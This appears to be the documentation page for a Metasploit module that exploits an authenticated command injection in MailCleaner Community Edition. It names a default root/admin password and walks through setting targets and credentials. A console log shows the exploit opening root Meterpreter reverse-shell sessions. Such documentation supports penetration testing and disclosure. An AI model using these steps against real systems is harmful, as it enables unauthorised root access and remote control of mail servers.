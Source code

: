## Vulnerable Application

This module exploits the command injection vulnerability of MailCleaner Community Edition product. An authenticated user can execute an operating system command under the context of the web server user which is root.

You can download ISO file from following URL.
[https://www.mailcleaner.org/latest-downloads/](https://www.mailcleaner.org/latest-downloads/)

At the time of this writing all the passwords of users such as root or admin user was "MCPassw0rd".

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use use exploit/linux/http/mailcleaner`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Set `USERNAME`
- [ ] Set `PASSWORD`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing ` Awesome..! Authenticated`.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf5 > use exploit/linux/http/mailcleaner_exec 
msf5 exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf5 exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
PASSWORD => qwe123
msf5 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:<password>
[*] Exploiting command injection flaw
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 1 opened (12.0.0.1:4444 -> 12.0.0.100:44974) at 2018-12-19 17:24:44 +0300
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.100:44975) at 2018-12-19 17:24:45 +0300

meterpreter >
```